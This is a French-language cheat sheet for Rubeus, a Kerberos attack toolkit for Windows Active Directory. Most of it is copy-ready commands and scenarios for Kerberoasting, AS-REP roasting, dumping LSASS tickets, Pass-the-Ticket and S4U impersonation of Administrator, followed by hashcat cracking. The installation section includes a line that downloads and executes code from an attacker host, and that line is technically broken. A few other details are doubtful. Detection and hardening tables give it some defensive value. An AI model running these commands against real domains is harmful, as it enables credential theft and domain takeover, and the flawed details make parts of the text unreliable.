

# Rubeus — Active Directory & Windows

> [!info] **En 1 phrase**
> Rubeus est un **toolkit Kerberos en C#** (GhostPack) qui s'exécute en mémoire sur un poste Windows : Kerberoasting, AS-REP roasting, Pass-the-Ticket, délégation S4U et dump des tickets.

---

## Overview

| Champ | Détail |
|---|---|
| **Nom** | Rubeus |
| **Type** | Toolkit Kerberos C# (post-exploitation Windows) |
| **Licence** | BSD 3-Clause |
| **Langage** | C# (.NET) |
| **Développeur** | GhostPack (auteur principal : harmj0y) |
| **Dépositaires** | `github.com/GhostPack/Rubeus` |
| **Installation** | Compilation dotnet ou binaires des releases ; exécution en mémoire recommandée |
| **Pré-requis** | Poste Windows joint au domaine, compte de domaine, .NET Framework / runtime |
| **Plateformes** | Windows (exécution en mémoire : PowerShell, Cobalt Strike, smbserver) |
| **Objectif** | Manipuler Kerberos (TGT/TGS) : roasts, tickets, délégations, monitor, dump |

---

## Concept

Rubeus est un outil C# de la collection **GhostPack** (HarmJ0y) qui manipule directement le **protocole Kerberos** (TGT/TGS) sans dépendre des outils natifs Windows (klist, kinit). Il est conçu pour être lancé **sans écriture sur disque** : chargé en mémoire via PowerShell (`Invoke-Binary`), Cobalt Strike, ou exécuté depuis un smbserver. Il couvre la plupart des attaques Kerberos post-compromission : **Kerberoasting** (dump des TGS des SPN), **AS-REP roasting** (comptes sans pré-authentification), **Pass-the-Ticket** (`ptt`), **récupération du TGT courant** (`tgtdeleg`), **délégation S4U** (`s4u` pour les délégations contraintes et RBCD) et **surveillance des tickets** (`monitor`, utile sur les hôtes à délégation non contrainte). Dans un pentest AD, il s'utilise depuis un compte de domaine compromis sur un poste Windows joint au domaine.



---

## Concepts fondamentaux

| Concept | Rôle dans Rubeus |
|---|---|
| **Kerberos** | Protocole d'authentification : TGT (via KDC), TGS (via services) |
| **TGT** | Ticket Granting Ticket : prouve l'identité de l'utilisateur auprès du KDC |
| **TGS / SPN** | Ticket de service pour un Service Principal Name : la cible du Kerberoasting |
| **Kerberoasting** | Demande de TGS pour des comptes avec SPN → hash crackable (hashcat 13100/19700) |
| **AS-REP Roasting** | Comptes sans pré-authentification → hash direct sans mot de passe (18200) |
| **Pass-the-Ticket** | Injection d'un ticket dans la session (`ptt`) |
| **S4U2Self / S4U2Proxy** | Extension Kerberos pour l'impersonation (délégation contrainte / RBCD) |
| **RBCD** | Resource-Based Constrained Delegation : droits attribués sur la machine cible |
| **Délégation non contrainte** | Les TGT des sessions transitent sur l'hôte → `monitor` les capture |

---

## Installation

### Compilation (développement)

```bash
# dotnet SDK requis — Rubeus
git clone https://github.com/GhostPack/Rubeus
cd Rubeus/Rubeus
dotnet build -c Release

# Ou binaires précompilés dans les releases GitHub (à uploader sur la cible)
```

### Exécution en mémoire (sans écriture sur disque)

```powershell
# Depuis PowerShell
IEX (New-Object Net.WebClient).DownloadString('http://attacker:8080/Rubeus.exe')

# Depuis Cobalt Strike / autres frameworks : chargement en mémoire natif

# Via un smbserver (Impacket)
# impacket-smbserver share . puis :
copy \\192.168.1.50\share\Rubeus.exe C:\Windows\Temp\
```

> [!note] À vérifier
> Les versions .NET varient : la compilation cible un Framework précis (souvent .NET Framework 4.x). Vérifier la version du runtime sur la cible avant de compiler.

---

## Configuration

Rubeus se configure par **arguments de ligne de commande** (sous-commandes + `/options`). Il n'y a pas de fichier de configuration : chaque commande définit le contexte (user, hash, ticket, SPN).

| Paramètre | Rôle | Valeur possible | Impact | Exemple |
|---|---|---|---|---|
| `/user:<u>` | Compte cible | nom d'utilisateur | Définit le principal pour asktgt/s4u | `/user:svc_sql` |
| `/rc4:<hash>` | Hash RC4 (NTLM) | hash 32 hex | Authentification par hash | `/rc4:64f12cdd...` |
| `/aes256:<key>` | Clé AES256 | hex | Authentification AES-only | `/aes256:3f2a...` |
| `/password:<p>` | Mot de passe en clair | chaine | Alternative au hash | `/password:'P@ss!'` |
| `/impersonateuser:<u>` | Utilisateur à impersonifier | `Administrator` | Cible de S4U | `/impersonateuser:Administrator` |
| `/msdsspn:<spn>` | SPN du service cible | `cifs/dc01` | Cible du ticket TGS | `/msdsspn:cifs/dc01` |
| `/ticket:<b64>` | Ticket base64 | chaîne | Injection pour ptt/dump | `/ticket:doIEpj...` |
| `/outfile:<f>` | Écriture de la sortie | fichier | Sauvegarde des hashes/tickets | `/outfile:kerb.txt` |
| `/nowrap` | Sortie sur une ligne | flag | Évite la troncature des hashes | `/nowrap` |
| `/format:<fmt>` | Format des hashes | `hashcat` ou `john` | Format de sortie des roasts | `/format:hashcat` |
| `/ldapfilter:<f>` | Filtre LDAP de sélection | chaîne LDAP | Sélectionne les comptes (exclut les machines) | `/ldapfilter:'(samAccountType=805306368)'` |
| `/interval:<s>` | Intervalle de monitor | secondes | Fréquence de scrutation | `/interval:30` |
| `/stats` | Statistiques avant roast | flag | Aperçu des comptes et encodage | `kerberoast /stats` |

---

## Architecture interne

- **Langage** : C#/.NET, compatible Windows (un seul exe, aucune dépendance externe).
- **Implémentation Kerberos** : Rubeus implémente le client Kerberos en C# (AS-REQ, TGS-REQ, encodage ASN.1, chiffrement RC4/AES) sans passer par `sspi`.
- **Sous-commandes** : `kerberoast`, `asreproast`, `asktgt`, `s4u`, `ptt`, `dump`, `triage`, `monitor`, `tgtdeleg`, `hash`, `changepw`, `renew`, `describe`, `createnetonly`.
- **Interaction avec LSASS** : `dump` et `triage` lisent le cache de tickets de la session (LUID) via les API LSASS ; `ptt` injecte le ticket dans la session courante.
- **S4U** : la sous-commande `s4u` enchaîne S4U2Self (demander un ticket pour soi en tant qu'un autre) et S4U2Proxy (l'échanger contre un ticket de service) — cœur des attaques de délégation.
- **Exécution en mémoire** : conçu pour être chargé sans écriture sur disque (reflective loading via PowerShell, Cobalt Strike, etc.).

---

## Commandes

### Commandes principales

```bash
# Kerberoasting (dump des TGS)
Rubeus.exe kerberoast /stats
Rubeus.exe kerberoast /outfile:kerb.txt /nowrap

# AS-REP roasting
Rubeus.exe asreproast /user:users.txt /format:hashcat /nowrap

# Tickets en cache
Rubeus.exe triage
Rubeus.exe dump /service:krbtgt /nowrap

# Récupération du TGT courant (defense evasion)
Rubeus.exe tgtdeleg /nowrap

# Délégation S4U (S4U2Self + S4U2Proxy)
Rubeus.exe s4u /user:svc_sql /rc4:64f12cdd... /impersonateuser:Administrator /msdsspn:cifs/dc01 /ptt

# Surveillance des tickets (ex: unconstrained delegation)
Rubeus.exe monitor /interval:30 /nowrap

# Demande d'un TGT (asktgt) puis injection directe
Rubeus.exe asktgt /user:svc_sql /rc4:64f12cdd... /ptt

# Génération d'un hash Kerberos (pour la conversion vers les autres outils)
Rubeus.exe hash /password:Passw0rd! /user:alice /domain:corp.local
```

| Commande | Effet |
|---|---|
| `kerberoast` | demande des TGS pour les SPN (hashcat **13100** RC4 / **19700** AES) |
| `kerberoast /stats` | statistiques avant de roast (comptes + encodage) |
| `asreproast` | AS-REP roasting — hashcat mode **18200** |
| `dump` | exporte les tickets du cache LSASS |
| `triage` | liste les tickets avec client, service, expiration |
| `tgtdeleg` | récupère le TGT du compte courant via une attaque de délégation |
| `monitor` | écoute en continu les nouveaux TGT/TGS émis |
| `s4u` | S4U2Self + S4U2Proxy (délégation contrainte / RBCD) |
| `asktgt` | demande un TGT pour un compte (avec password, hash ou aesKey) |
| `hash` | calcule les hashes Kerberos (AES, RC4, DES) d'un mot de passe |
| `ptt` | injecte un ticket dans la session (Pass-the-Ticket) |
| `/nowrap` | sortie sur **une seule ligne** (essentiel pour copier les hashes) |

### Commandes avancées

```bash
# Kerberoasting ciblé en excluant les comptes machines
Rubeus.exe kerberoast /ldapfilter:'(samAccountType=805306368)' /nowrap

# Délégation avec clé AES (environnements AES-only)
Rubeus.exe s4u /user:svc_sql /aes256:3f2a... /impersonateuser:Administrator /msdsspn:http/app01 /ptt

# Dump d'un ticket précis et réinjection
Rubeus.exe dump /luid:0x123456 /nowrap
Rubeus.exe ptt /ticket:<base64>
```

## Options et flags

| Option | Description | Exemple | Niveau |
|---|---|---|---|
| `/user:<u>` | Compte cible | `/user:svc_sql` | Basic |
| `/rc4:<hash>` | Hash RC4/NTLM | `/rc4:64f12cdd...` | Basic |
| `/password:<p>` | Mot de passe en clair | `/password:'P@ss!'` | Basic |
| `/outfile:<f>` | Écriture de la sortie | `/outfile:kerb.txt` | Basic |
| `/nowrap` | Sortie sur une ligne | `/nowrap` | Basic |
| `/stats` | Statistiques du roast | `kerberoast /stats` | Intermediate |
| `/format:hashcat` | Format des hashes | `/format:hashcat` | Intermediate |
| `/ticket:<b64>` | Ticket à injecter | `/ticket:doIEpj...` | Intermediate |
| `/ptt` | Injection directe du ticket | `/ptt` | Intermediate |
| `/ldapfilter:<f>` | Filtre LDAP des comptes | `/ldapfilter:'(samAccountType=805306368)'` | Advanced |
| `/impersonateuser:<u>` | Utilisateur à impersonifier (S4U) | `/impersonateuser:Administrator` | Advanced |
| `/msdsspn:<spn>` | SPN du service cible (S4U) | `/msdsspn:cifs/dc01` | Advanced |
| `/aes256:<key>` | Clé AES256 | `/aes256:3f2a...` | Advanced |
| `/interval:<s>` | Intervalle de monitor | `/interval:30` | Advanced |
| `/luid:<h>` | Session LUID cible (dump) | `/luid:0x123456` | Expert |
| `/createnetonly` | Créer un processus avec un SID différent | `/createnetonly:C:\Windows\System32\cmd.exe` | Expert |
| `/describe` | Décode un ticket | `/ticket:<b64> /describe` | Expert |

> [!tip] Options les plus utiles au quotidien
> `/nowrap` (hashes complets), `/outfile` (sauvegarde), `/rc4` (PtH), `/ptt` (injection).

---

## Exemples pratiques

### Beginner

```bash
# Voir les tickets de la session
Rubeus.exe triage

# Kerberoasting complet
Rubeus.exe kerberoast /nowrap
hashcat -m 13100 kerb.txt rockyou.txt
```

### Intermediate

```bash
# Kerberoasting avec sauvegarde et filtre machines
Rubeus.exe kerberoast /outfile:kerb.txt /ldapfilter:'(samAccountType=805306368)' /nowrap

# AS-REP roasting
Rubeus.exe asreproast /user:users.txt /format:hashcat /nowrap
hashcat -m 18200 asrep.txt rockyou.txt
```

### Advanced

```bash
# Demander un TGT avec un hash et l'injecter
Rubeus.exe asktgt /user:svc_sql /rc4:64f12cdd... /ptt
dir \\dc01\C$

# Récupérer le TGT courant via tgtdeleg
Rubeus.exe tgtdeleg /nowrap
Rubeus.exe ptt /ticket:<base64>
```

### Expert

```bash
# Délégation S4U (RBCD) pour impersonifier un admin
Rubeus.exe s4u /user:svc_sql /rc4:64f12cdd... /impersonateuser:Administrator /msdsspn:cifs/dc01 /ptt
dir \\dc01\C$

# Dump d'un ticket d'une autre session puis injection
Rubeus.exe dump /luid:0x123456 /nowrap
Rubeus.exe ptt /ticket:<base64>
```

---

## Workflow complet (scénario pas à pas)

Scénario : vous avez un **compte domaine** sur un poste Windows.

1. **Inventaire** : voir les tickets déjà présents dans la session.
   ```bash
   Rubeus.exe triage
   ```
2. **Kerberoast** : collecter les TGS des comptes de service.
   ```bash
   Rubeus.exe kerberoast /nowrap
   ```
3. **Crack** les hashes hors-ligne.
   ```bash
   hashcat -m 13100 kerb.txt rockyou.txt
   ```
4. **Rechercher les tickets privilégiés** dans le cache LSASS.
   ```bash
   Rubeus.exe dump /service:krbtgt /nowrap
   ```
5. **Injecter** un ticket récupéré et accéder à une ressource.
   ```bash
   Rubeus.exe ptt /ticket:<base64>
   dir \\dc01\C$
   ```

---

## Scénarios avancés

### Scénario 1 : AS-REP Roasting ciblé

Les comptes sans pré-authentification donnent directement un hash crackable.

```bash
Rubeus.exe asreproast /user:users.txt /format:hashcat /nowrap
hashcat -m 18200 asrep.txt rockyou.txt
```

### Scénario 2 : Délégation S4U (RBCD) pour impersonifier un admin

Avec le hash d'un compte autorisé en délégation, demander un ticket pour un service.

```bash
Rubeus.exe s4u /user:svc_sql /rc4:64f12cdd... /impersonateuser:Administrator /msdsspn:cifs/dc01 /ptt
dir \\dc01\C$
```

### Scénario 3 : Monitor pour la délégation non contrainte

Sur un hôte avec un compte admin connecté, capturer les TGT qui y transitent.

```bash
Rubeus.exe monitor /interval:30 /nowrap
```

### Scénario 4 : Pass-the-Ticket inter-utilisateurs

Dumper un ticket d'une session admin puis l'injecter dans la sienne.

```bash
Rubeus.exe dump /luid:0x3e7 /nowrap        # session SYSTEM
Rubeus.exe ptt /ticket:<base64>
dir \\dc01\C$
```

---

## Cybersecurity use cases

| Phase | Utilisation |
|---|---|
| Credential Access | Kerberoasting (13100/19700), AS-REP roasting (18200) |
| Lateral Movement | Pass-the-Ticket (`ptt`), injection de TGT/TGS |
| Privilège Escalation | Délégation S4U (RBCD / délégation contrainte) |
| Persistance | Golden/Silver via `ticket` forgés (complémentaire à Mimikatz) |
| Reconnaissance | `triage`, `kerberoast /stats`, `monitor` (sessions privilégiées) |
| Defense Evasion | `tgtdeleg` récupère un TGT sans interaction directe avec LSASS |
| Blue team / lab | Analyse des tickets, tests de délégation |

---

## MITRE ATT&CK

| Tactique | Technique / Sub-technique | ID | Raison | Détection | Mitigation |
|---|---|---|---|---|---|
| Credential Access | Steal or Forge Kerberos Tickets : Kerberoasting | T1558.003 | Demande de TGS pour les comptes SPN | Événement 4769 (volume, RC4), alertes SIEM | gMSA, AES-only, mots de passe à forte entropie |
| Credential Access | Steal or Forge Kerberos Tickets : AS-REP Roasting | T1558.004 | Comptes sans pré-authentification | 4768 anormal, comptes DONT_REQ_PREAUTH | Désactiver DONT_REQ_PREAUTH, AES-only |
| Credential Access | Steal or Forge Kerberos Tickets | T1558.001/.002 | Injection/forge de tickets | TGT/TGS anormaux, 4768/4769 suspects | Rotation krbtgt, monitoring Kerberos |
| Lateral Movement | Use Alternate Authentication Material : Pass-the-Ticket | T1550.003 | Injection de tickets dans la session | 4624/4625, accès LSASS | Credential Guard, LSA Protection |
| Privilege Escalation | Steal or Forge Kerberos Tickets : S4U | T1558.002 (variante) | Délégation S4U2Self/Proxy | 4769 S4U, délégations restreintes | Restreindre les délégations, surveiller S4U |
| Defense Evasion | Access LSASS / cache de tickets | T1003.001 (via dump) | Lecture du cache LSASS | 4656/4663, Sysmon 10 | LSA Protection, Credential Guard |

> [!note] Ne renseigner que si l'association est réellement pertinente.
> Rubeus est centré **Kerberos** : T1558 (roasts, tickets, S4U) et T1550.003 (PtT) sont les plus pertinents.

## Defensive Security

| Élément | Analyse |
|---|---|
| **Signature principale** | Volume anormal de TGS-REQ (4769) / TGT-REQ (4768), encodage RC4, accès au cache LSASS |
| **Journal Windows** | 4768 (TGT), 4769 (TGS), 4771 (échecs), 4656/4663 (accès LSASS), Sysmon Event 10 |
| **Surveillance** | Alerter sur les 4769 avec encodage RC4, volume de demandes par utilisateur, S4U2Proxy répétées |
| **Mesures de prévention** | gMSA pour les comptes de service, AES-only (bannir RC4), suppression des SPN superflus |
| **Réduction de la surface** | Supprimer les comptes avec DONT_REQ_PREAUTH, restreindre les délégations |
| **Outils de détection** | EDR (chargement en mémoire), SIEM (4768/4769), AMSI + script block logging |

> [!tip] Bien comprendre ce que Rubeus exploite
> Rubeus exploite les **demandes Kerberos légitimes** (TGS/TGT). Le durcissement passe par les **gMSA**, le **AES-only** et la **surveillance des volumes 4768/4769** — qui sont les vraies contre-mesures.

---

## Automatisation

| Tâche | Outil | Exemple de commande / code |
|---|---|---|
| Kerberoasting récurrent | Script/schtasks | `Rubeus.exe kerberoast /outfile:kerb.txt /nowrap` |
| Surveillance des tickets | `monitor` | `Rubeus.exe monitor /interval:30 /nowrap` |
| Cracking automatique | hashcat | `hashcat -m 13100 kerb.txt rockyou.txt` |
| Chargement en mémoire via framework | Cobalt Strike / Empire | `execute-assembly Rubeus.exe kerberoast /nowrap` |
| Parsing des sorties | grep/awk | `grep -iE 'AES256|RC4' out.txt` |

---

## Output et parsing

- **Console** : les roasts affichent les hashes (RC4/AES) et tickets en base64 (`/nowrap` pour une ligne complète).
- **Fichiers** : `/outfile:<f>` écrit les hashes directement utilisables par hashcat/john (`/format:hashcat` ou `john`).
- **Tickets** : `dump`, `asktgt`, `tgtdeleg`, `s4u` produisent des tickets base64 à coller dans `ptt`.
- **Parsing** : extraction des comptes roastes avec grep, sauvegarde des tickets dans des fichiers texte.

```bash
# Exemple de parsing des hashes roastes
grep -oE '\$krb5tgs\$[^ ]+' kerb.txt > tgs_hashes.txt
hashcat -m 13100 tgs_hashes.txt rockyou.txt
```

---

## Intégrations

| Outil | Usage dans l'écosystème Rubeus |
|---|---|
| [[Outil - hashcat]] | Crack des hashes Kerberoast (13100 RC4 / 19700 AES) et AS-REP (18200) |
| [[Outil - Impacket]] | getST/getTGT équivalents côté Linux ; conversion de tickets (kirbi ↔ ccache) |
| [[Outil - Mimikatz]] | Forge de Golden/Silver Tickets, complémentaire aux roasts |
| [[Outil - Evil-WinRM]] | Charger Rubeus en mémoire via `Invoke-Binary` |
| [[Outil - BloodHound]] | Identifier les comptes roasteables (hasspn) et les délégations |
| [[Outil - Kerbrute]] | Énumération des comptes en amont (alimente asreproast/users.txt) |

---

## Alternatives

| Alternative | Différence | Pour qui |
|---|---|---|
| **GetUserSPNs.py (Impacket)** | Kerberoasting côté Linux | Sans poste Windows |
| **GetNPUsers.py (Impacket)** | AS-REP Roasting côté Linux | Sans poste Windows |
| **Mimikatz `kerberos`** | Tickets forgés (golden/silver) plutôt que roasts | Forge de tickets |
| **Kerberoast (PowerShell)** | Script de Kerberoasting simple | Usage ponctuel |
| **Lapso** | Toolkit (fork récent avec plus de fonctions) | Usage moderne / à jour |

---

## Performance

| Facteur | Impact | Optimisation |
|---|---|---|
| Volume de SPN | Roaster tout le domaine = long et bruyant | Filtrer avec `/ldapfilter` et `/stats` |
| Encodage | Les TGS AES sont plus longs à cracker | Favoriser RC4 (si présent) puis AES |
| Monitor | `monitor` consomme peu mais tourne longtemps | Intervalle adapté (30-60 s) |
| Chargement en mémoire | .NET chargé en mémoire = détectable par EDR | Combiner avec des techniques d'évasion (lab) |

---

## Troubleshooting

| Problème | Cause | Solution | Vérification |
|---|---|---|---|
| `No such user` sur asktgt/s4u | Mauvais nom de compte | Vérifier la casse, le domaine | `Rubeus.exe triage` |
| Hash AS-REP introuvable | Compte avec preauth active | Utiliser `kerberoast /stats` pour identifier | `asreproast` sur les bons comptes |
| Kerberoast ne sort rien | SPN absents / filtre trop strict | Enlever le `ldapfilter`, vérifier les droits | `kerberoast /stats` |
| Ticket refusé (ptt) | Ticket expiré ou mauvais service | Vérifier l'heure (clock skew), re-demander | `Rubeus.exe describe /ticket:<b64>` |
| s4u échoue | Droits de délégation absents | Utiliser un compte autorisé (RBCD) | Vérifier msDS-AllowedToAct |
| Rubeus ne se lance pas | .NET manquant | Vérifier le runtime, compiler pour le bon Framework | `dotnet --list-runtimes` |

---

## Sécurité de l'outil

- **Exécution en mémoire** : éviter d'écrire `Rubeus.exe` sur disque (détection de signatures) ; charger en mémoire via PowerShell/framework.
- **Données sensibles** : les hashes et tickets sortis sont des secrets → fichiers chiffrés, effacement après analyse.
- **Credentials** : `/rc4` et `/password` passent en clair dans la ligne de commande → visibles dans les processus/logs (utiliser des scripts en mémoire dans un cadre lab).
- **Exposition** : Rubeus est un outil offensif réservé aux tests autorisés.
- **Nettoyage** : supprimer les fichiers de sortie et les tickets injectés après l'engagement.

---

## Limitations

- **Windows uniquement** : nécessite un poste Windows joint au domaine (pas de version Linux native).
- **Dépendances** : .NET Framework présent ; le chargement en mémoire requiert un contexte d'exécution adapté (PowerShell, Cobalt Strike).
- **Bruit** : les roasts et accès LSASS sont détectables (4768/4769, Sysmon 10) si l'environnement est surveillé.
- **RC4/AES** : les environnements AES-only limitent les roasts exploitables (hashes AES plus difficiles à cracker).
- **Privilèges** : `dump` nécessite des droits élevés (admin local/SYSTEM).

---

## Cheatsheet

```text
# Kerberoasting
Rubeus.exe kerberoast /nowrap
Rubeus.exe kerberoast /stats
Rubeus.exe kerberoast /outfile:kerb.txt /nowrap
Rubeus.exe kerberoast /ldapfilter:'(samAccountType=805306368)' /nowrap
# hashcat -m 13100 kerb.txt rockyou.txt

# AS-REP Roasting
Rubeus.exe asreproast /user:users.txt /format:hashcat /nowrap
# hashcat -m 18200 asrep.txt rockyou.txt

# Tickets
Rubeus.exe triage
Rubeus.exe dump /service:krbtgt /nowrap
Rubeus.exe ptt /ticket:<base64>
Rubeus.exe tgtdeleg /nowrap
Rubeus.exe monitor /interval:30 /nowrap

# asktgt / s4u
Rubeus.exe asktgt /user:svc_sql /rc4:64f12cdd... /ptt
Rubeus.exe s4u /user:svc_sql /rc4:64f12cdd... /impersonateuser:Administrator /msdsspn:cifs/dc01 /ptt

# Utile
Rubeus.exe hash /password:Passw0rd! /user:alice /domain:corp.local
Rubeus.exe describe /ticket:<base64>
```

---

## Quick reference

| Situation | Action immédiate |
|---|---|
| Compte de domaine sur un poste Windows | `Rubeus.exe kerberoast /nowrap` |
| Roaster sans comptes machines | `kerberoast /ldapfilter:'(samAccountType=805306368)'` |
| Comptes sans preauth | `Rubeus.exe asreproast /user:users.txt /format:hashcat /nowrap` |
| Ticket admin en cache | `Rubeus.exe dump /service:krbtgt /nowrap` puis `ptt /ticket:<b64>` |
| Récupérer son TGT sans toucher LSASS | `Rubeus.exe tgtdeleg /nowrap` |
| Délégation RBCD | `Rubeus.exe s4u /user:<svc> /rc4:<hash> /impersonateuser:Administrator /msdsspn:<spn> /ptt` |
| Hôte à délégation non contrainte | `Rubeus.exe monitor /interval:30 /nowrap` |

---

## Détection & Défense

| Signe | Défense |
|---|---|
| Événement 4769 : volume de **TGS-REQ** inhabituel (Kerberoasting) | Surveiller les demandes de tickets, comptes de service gMSA |
| Événement 4768 : **TGT-REQ** en masse (AS-REP) | Surveiller les requêtes AS-REQ sans preauth |
| Événement 4769 + RC4 : encodage RC4 depuis un compte non-service | Bannir RC4 (AES obligatoire), surveiller les TGS RC4 |
| Process .NET chargé en mémoire (Rubeus) | EDR, AMSI, contrainte de chargement en mémoire |
| Accès au cache LSASS (`dump`) | Protection LSA (Credential Guard), restreindre SeDebugPrivilege |

---

## Tips & Pièges

> [!tip] **/nowrap systématique** : en sortie terminal, les hashes sont tronqués. `Rubeus.exe kerberoast /nowrap` évite de casser les hashes au moment de les coller dans hashcat.

> [!warning] **Piège** : `kerberoast` sans filtre roast aussi les comptes **machines** (`$`) dont le mot de passe est aléatoire — perte de temps et bruit. Filtre : `kerberoast /ldapfilter:'(samAccountType=805306368)'`.

> [!warning] **Piège** : un compte avec **preauth activée** ne donnera jamais de hash AS-REP exploitable. Vérifie d'abord avec `kerberoast /stats` l'état `DONT_REQ_PREAUTH`.

> [!warning] **Piège** : en environnement **AES-only**, les hashes roastes (mode 19700) sont beaucoup plus lents à cracker : privilégier les comptes avec encodage RC4 si présents, sinon anticiper un cracking long.

---

## References

- GitHub officiel : https://github.com/GhostPack/Rubeus
- Wiki Rubeus : https://github.com/GhostPack/Rubeus/wiki
- GhostPack (collection) : https://github.com/GhostPack
- The Hacker Recipes — Kerberos : https://www.thehacker.recipes/ad/movement/kerberos/
- Portail Obsidian `Techniques` : [[Kerberoasting]], [[AS-REP Roasting]], [[Golden Ticket]]

**Liens :** [[Outil - Rubeus]] | [[Outil - Impacket]] | [[Outil - Mimikatz]] | [[Outil - hashcat]] | [[Outil - Evil-WinRM]] | [[Outil - BloodHound]] | [[Outil - Kerbrute]]

